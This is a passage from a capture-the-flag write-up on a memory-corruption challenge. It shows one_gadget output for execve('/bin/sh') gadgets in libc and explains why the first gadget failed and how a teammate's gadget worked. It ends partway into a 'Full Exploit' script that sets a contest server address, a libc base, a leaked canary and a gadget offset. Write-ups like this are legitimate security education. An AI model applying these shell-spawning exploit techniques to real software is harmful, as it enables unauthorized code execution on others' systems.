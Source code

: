 ```python
$ one_gadget libc.so.6 
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

And the final one is usable:

![context](./pngs/context.png)

However, when I actually try it, I found that:

![rbp](./pngs/rbp.png)

Yeah, it uses the `rbp`, and require `rbp-0x78` writable. And rbp is already over written.

Now we are stuck..

And at the time of contest, my part went here, next part was done by @Umut.

He magically found another one gadget the tool missed:

![onegadget](./pngs/onegadget.png)

Since `rdx` is already 0, and `rsi` is 0 (actually, it is unstable, sometimes it is 0, sometimes `r15` is 0, but in either case the gadget above is usable), we get it usable.

Finally we get the flag:

![flag](./pngs/flag.png)

So, let's sum up!

![umut](./pngs/umut.png)

### Full Exploit

```python
#!/usr/bin/env python3 
import requests 
from pwn import * 
import sys 
import urllib.parse 
 
#url = 'http://localhost:39267' 
url = 'http://54.176.255.241:33717' 
submit_url = url + '/submit' 
submit_page = url + '/submit.html' 
register_url = url + '/register' 
 
libc_base = 0x7f6b1b06c000 
canary = 0xfd15c59a46b75400  
 
 
one_gadget = 0xE6C84 
#one_gadget = 0xe6e79 
```